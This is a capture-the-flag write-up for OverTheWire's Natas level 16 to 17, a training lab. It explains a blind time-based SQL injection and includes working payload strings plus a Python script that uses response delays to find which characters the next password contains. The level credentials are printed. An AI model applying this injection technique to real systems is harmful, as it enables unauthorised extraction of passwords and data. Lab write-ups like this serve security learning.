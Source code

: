 # Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

<img src="./0.png"></img>

<img src="./1.png"></img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later)

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# cCurrent level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters:")
        print(characters_in_use)
```

## Password for the next level:
```

```

